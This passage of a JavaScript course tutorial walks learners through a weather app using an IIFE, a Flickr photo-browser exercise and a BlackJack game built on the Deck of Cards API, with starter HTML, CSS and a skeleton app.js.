      .then(data => data.currently)
    );
  }

  function getCoordinatesForCity(cityName) {
    var url = `${GOOGLE_MAPS_API_URL}?address=${cityName}&key=${GOOGLE_MAPS_API_KEY}`;

    return (
      fetch(url)
      .then(response => response.json())
      .then(data => data.results[0].geometry.location)
    );
  }

  var app = document.querySelector('#app');
  var cityForm = app.querySelector('.city-form');
  var cityInput = cityForm.querySelector('.city-input');
  var getWeatherButton = cityForm.querySelector('.get-weather-button');
  var cityWeather = app.querySelector('.city-weather');

  cityForm.addEventListener('submit', function(event) {
    event.preventDefault(); // prevent the form from submitting

    var city = cityInput.value;

    getCoordinatesForCity(city)
    .then(getCurrentWeather)
    .then(function(weather) {
      cityWeather.innerText = 'Current temperature: ' + weather.temperature;
    })
  });
})();
```

This says here's an anonymous function, now run it. The advantage is that all the variables and functions we declared are now scoped to this function, and will not pollute the global scope! Since we don't need those variables outside of that scope, this is perfectly fine. **It is a good practice to wrap your code in an IIFE to prevent it from polluting the global scope. Do it whenever possible!** The reason for the extra parentheses is to prevent a `SyntaxError` as explained in the article linked above.

### Possible improvements
As discussed in class, if you want to use this project for your portfolio you can make a lot of enhancements to it. Here are some suggestions:

  1. When we click "Get Weather!" right now, there is no indication that the browser is doing anything useful. If the two API calls take more than a few milliseconds to run, we will not see what is going on. This is bad for the user experience. If you look at the GIF at the beginning of this seciton, you'll notice that after entering a city name the word "loading..." appears below, to be replaced by the result when it arrives. Implement this in your own app.
  2. Add CSS to make it look nice! Here, the sky is the limit ;) Bigger fonts, custom fonts, custom colors and backgrounds. You can use the [Skycons](http://darkskyapp.github.io/skycons/) icons since the API returns an `icon` property in the data. You could also look for another set of icons that is more original or in line with the style of your app.
  3. Add more weather information. The `currently` section contains the wind speed, wind direction, and many other interesting bits of information about the weather. Find a nice way to display them and do it!
  4. Add a five-day forecast to your application with its own styling and icons.
  5. When geocoding, we are taking the first result that Google Maps API gives us. Inside this result there is the full name of the location that we requested. For example if you query for `address=montreal`, the response will contain the string `Montreal, QC, Canada`. Use this to display it along with your weather information.
  6. Use [Google Places Autocomplete](https://developers.google.com/maps/documentation/javascript/places-autocomplete) to provide an input box that will suggest options to the user. This is better than "guessing" what the user wanted to type, and will make you learn about a new API.

---

## Project #2: Flickr API Photo Browser
It's your turn now! Based on what you learned while doing the previous project, you will build a Flickr Photo Browser! Here's an example of what a super basic version of the browser will look. If you want to use this as part of your portfolio, you should definitely follow some of the improvements that we suggest ;)

<p align="center">
  
</p>

1. Get an API key [here](https://www.flickr.com/services/api/misc.api_keys.html). You'll have to get a Yahoo account... (yes, we know). For this app, you only need the key and not the secret.

  

2. Read the documentation for the [Flickr Search API](https://www.flickr.com/services/api/flickr.photos.search.html). Even though it mentions XML results, you can get JSON back by using this URL format:

  ```
  https://api.flickr.com/services/rest/?method=flickr.photos.search&format=json&nojsoncallback=1&api_key=YOUR_API_KEY&text=THE_SEARCH_TEXT
  ```

3. Read the documentation on [how to build URLs for Flickr images](https://www.flickr.com/services/api/misc.urls.html)

4. Write a function called `getPhotosForSearch` that takes a search term and returns an array of photo objects. You'll have to transform the Flickr response quite a bit. Ideally you will return an array of objects, with each object having `thumb`, `large`  and `title` properties. These properties should be URLs built using the documentation in step 3.
5. Wire up a search form submit event to start the search using the word(s) in the form input. When receiving the results, clear a pre-existing container div and put the results in there. Each result should have this shape:

  ```html
  <a href="URL OF THE LARGE IMAGE" target="_blank">
    
  </a>
  ```

  In order to create such elements, it would help to have a helper function called `createFlickrThumb` that returns an `<a>` element, like this:

  ```javascript
  function createFlickrThumb(photoData) {
    var link = document.createElement('a');
    link.setAttribute('href', photoData.large);
    link.setAttribute('target', '_blank');

    var image = document.createElement('img');
    image.setAttribute('src', photoData.thumb);
    image.setAttribute('alt', photoData.title);

    link.appendChild(image);

    return link;
  }
  ```

6. Once the basics are working, it's time to add some improvements!!
  * Make the gallery look nice with CSS
  * Make the gallery responsive using a block grid
  * Instead of linking to each image, prevent the click and display a popup image with an X
  * Infinite scroll! Using `window.addEventListener('scroll')`, try to figure out when the scrolling has reached the bottom of the page, and start loading the next page of results.

---

## Project #3: Vanilla BlackJack

### Introduction
* In this workshop you will be using the elegant [DeckOfCardsApi](http://deckofcardsapi.com/) in order to build your own game of BlackJack.

* Once complete, your game will look something like the picture below, at which point you will be able to customize and skin it to your own liking by adding onto index.html and styles.css.

<p align="center">
  
</p>

* You are provided with 3 files:
  * index.html
  * app.js
  * styles.css

* While index.html and styles.css are sufficiently complete for the basic game of blackjack, app.js is fairly empty - only the function names and state variables are provided for you. You're job is to complete app.js in order to create a functioning game of blackjack.

---
### Getting Starting

Create an `index.html` file with the following content:

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Vanilla BlackJack</title>
    <link rel="stylesheet" type="text/css" href="./styles.css">
</head>
<body>
    <h1>Vanilla BlackJack</h1>
    <button id="new-game">Shuffle New Deck</button>
    <div class="game-container">
        <div id="game-area">
            <div id="dealer-area">
                <h2>Dealer (<span id="dealer-number"></span>)</h2>
                <div id="dealer-cards">
                    <!-- Cards will appear here. -->
                </div>
            </div>
            <div id="player-area">
                <h2>
                    Player (<span id="player-number"></span>)
                    <span id="announcement"></span>
                </h2>
                <div id="player-cards">
                    <!-- Cards will appear here. -->
                </div>
            </div>
        </div>
        <div id="action-area">
            <button id="next-hand" style="display:none;">Next Hand</button>
            <button id="hit-me" style="display:none;">Hit me</button>
            <button id="stay" style="display:none;">I'll stay</button>
        </div>
    </div>
    <script type="text/javascript" src="./app.js"></script>
</body>
</html>
```


Create a `styles.css` with the following content:

```css
body {
  height: 100vh;
  background: DarkSlateGray ;
}

h1 {
  margin: 2rem;
  text-align: center;
  color: white;
  font-family: fantasy;
}

h2 {
  font-family: fantasy;
  font-size: 26px;
  color: Navy;
}

.game-container {
  display: flex;
  flex-flow: row nowrap;
  align-items: center;
  perspective: 1000px;
}

#game-area{
  z-index: 1;
  width: 85%;
  transform: rotateX(35deg);
  padding: 0 2rem 2rem 2rem;
  background: ForestGreen;
}

#dealer-area {
  margin-bottom: 2rem;
}

#dealer-cards {
  transform: translateY(-40px);
  display: flex;
  justify-content: center;
  height: 168px;
}

#player-area #announcement {
  margin-left: 25%;
}

#player-cards {
  display: flex;
  justify-content: center;
  height: 168px;
}

#action-area {
  z-index: 10;
  width: 15%;
  display: flex;
  flex-direction: column;
}

#next-hand, #hit-me {
  margin-bottom: 3rem;
}

button {
  background: SteelBlue;
  padding: 1rem;
  font-size: 1rem;
  border-radius: 1rem;
  outline: none;
}

img {
  width: 130px;
  height: 190px;
}

@media (min-width: 1200px) {
  body {
    padding: 0 12%;
  }
}
```
---
### Testing the Deck-of-Cards API

Visit the [DeckOfCardsApi](http://deckofcardsapi.com/) and familiarize yourself with the first two api calls:
* "Shuffle the cards"
* "Draw a card"

Open a new tab in chrome and open your console in developer tools.
Paste the following into the console in order to observe the parsed response from DeckOfCardsApi.

```javascript
fetch('https://deckofcardsapi.com/api/deck/new/shuffle/?deck_count=6')
.then(response => response.json())
.then(data => console.log(data))
```

Inside the response, find the `deck_id` and replace the value in the following api call in order to draw 4 cards from the deck you just shuffled.

```javascript
fetch('https://deckofcardsapi.com/api/deck/<<deck_id>>/draw/?count=4')
.then(response => response.json())
.then(data => console.log(data))
```
---
### Writing the game logic

Create an `app.js` with the following content:
Instructions are given inside each of the hallowed out functions.
Your job is to fill out these functions to get the game running smoothly.

```javascript
// app state
// ===================
// These variables represent the state of our application, they tell us at
// any given moment the state of our blackjack game. You might find it useful
// to use these to debug issues by console logging them in the functions below.
var deckID = "";
var dealerCards = [];
var playerCards = [];
var playerScore = 0;
var dealerScore = 0;
var roundLost = false;
var roundWon = false;
var roundTied = false;


// game play nodes:
// ===================
// These nodes will be used often to update the UI of the game.

// assign this variable to the DOM node which has id="dealer-number"
var dealerScoreNode

// select the DOM node which has id="player-number"
var playerScoreNode

// select the DOM node which has id="dealer-cards"
var dealerCardsNode

// select the DOM node which has id="player-cards"
var playerCardsNode

// selec the DOM node which has id="announcement"
var announcementNode

// selec the DOM node which has id=new-game"
var newDeckNode

// selec the DOM node which has id="next-hand"
var nextHandNode

// selec the DOM node which has id=""hit-me""
var hitMeNode

// selec the DOM node which has id="stay"
var stayNode


// On click events
// ==================
// These events define the actions to occur when a button is clicked.
// These are provided for you and serve as examples for creating further
// possible actions of your own choosing.
newDeckNode.onclick = getNewDeck;
nextHandNode.onclick = newHand;
hitMeNode.onclick = () => hitMe('player');
stayNode.onclick = () => setTimeout(() => dealerPlays(), 600);
// ==================


// Game mechanics functions
// ========================


function getNewDeck() {
  /* This function needs to:
  1) Call the resetPlayingArea function
  2) Make a call to deckofcardsapi in order to retrieve a new deck_id
  3) Set the value of our state variable deckID to the retrieved deck_id
  4) Change the display property of style on the nextHandNode element in order
  to provide the player with the Next Hand button.
  5) Hide the hit-me and stay buttons by changing their style.display to "none"
  6) Catch any errors that may occur on the fetch and log them */
}

function computeScore(cards) {
  // This function receives an array of cards and returns the total score.
  // ...
}


function newHand() {
  /* This function needs to:
  1) Call the resetPlayingArea function
  2) Make a call to deckofcardsapi using the deckID state variale in order
  to retrieve draw 4 cards from the deck.
  3) Once 4 cards have been drawn, push 2 of them to our dealerCards state
  array and 2 to our playerCards state array.
  4) Set our dealerScore state variable to "?" and then set the textContent
  value of the dealerScoreNode to dealerScore;
  5) ForEach card in playerCards and dealerCards, create an  element
  and assign the src of these to their respective card images. Don't forget to
  append these newly created  elements to the respective #dealer-cards and
  #player-cards DOM elements in order to have them show up in the html.
  6) Finally, compute the player's score by calling computeScore() and update
  the playerScoreNode to reflect this.
  7) If player score is 21, announce immediate victory by setting:
  roundWon = true;
  announcementNode.textContent = "BlackJack! You Win!";
  8) catch and log possible error from the fetch.
  */
}


function resetPlayingArea() {
  /* This function needs to:
  1) Reset all state variables to their defaults
  2) Reset the gameplay UI by updating textContent of all Nodes which may
  be displaying data from a previous round in the game. (ex: dealerScoreNode)
  3) Remove all  elements inside dealerCardsNode and playerCardsNode.
  */
}


function hitMe(target) {
  /* This function needs to:
  1) If any of roundLost or roundWon or roundTied is true, return immediately.
  2) Using the same deckID, fetch to draw 1 card
  3) Depending on wether target is 'player' or 'dealer', push the card to the
  appropriate state array (playerCards or dealerCards).
  4) Create an  and set it's src to the card image and append it to the
  appropriate DOM element for it to appear on the game play UI.
  5) If target === 'player', compute score and immediately announce loss if
  score > 21 by setting:
  roundLost = true;
  and updating announcementNode to display a message delivering the bad news.
  6) If target === 'dealer', just call the dealerPlays() function immediately
  after having appended the  to the game play UI.
  7) Catch error and log....
  */
}

function dealerPlays() {
  /* This function needs to:
  1) If any of roundLost or roundWon or roundTied is true, return immediately.
  2) Compute the dealer's score by calling the computeScore() function and
  update the UI to reflect this.
  */

  if (dealerScore < 17) {
    // a delay here makes for nicer game play because of suspence.
    setTimeout(()=>hitMe('dealer'), 900)
  }
  else if (dealerScore > 21) {
    roundWon = true;
    // ... Update the UI to reflect this...
  }
  else if (dealerScore > playerScore) {
    roundLost = true;
    // ... Update the UI to reflect this...
  }
  else if (dealerScore === playerScore) {
    roundTied = true;
    // ... Update the UI to reflect this...
  }
  else {
    roundWon = true;
    // ... Update the UI to reflect this...
  }

}

```

### Hiding the dealer's first card

Now that the game is running smoothly, we need to hide the dealer's first card in order for this to be REAL blackjack. Use this image and modify your app.js to hide the dealer's first card until it is his turn to play.

<p align="center">
  
</p>

### Challenge!

Now that your game is running smoothly, here are your options for challenges on this project:
 1. Add betting to the game.
 2. Make the app look professional.
